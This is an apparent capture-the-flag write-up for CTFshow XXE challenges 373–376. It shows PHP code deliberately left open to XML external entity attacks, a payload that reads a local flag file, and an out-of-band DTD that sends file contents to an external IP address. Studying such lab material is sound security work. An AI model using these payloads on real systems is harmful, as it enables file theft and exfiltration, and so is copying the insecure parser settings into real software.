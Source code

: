 # CTFSHOW

# 373 

源码

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__); 
```

payload

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY cmd SYSTEM "file:///flag">
]>
<a>
<ctfshow>&cmd;</ctfshow>
</a>
```

# 374-376 dtd外带

Eval.dtd

```xml-dtd
#test.dtd
<!ENTITY % dtd "<!ENTITY &#x25; xxe  SYSTEM 'http://43.139.42.28:5566/%file;'> ">
%dtd;
%xxe;
```
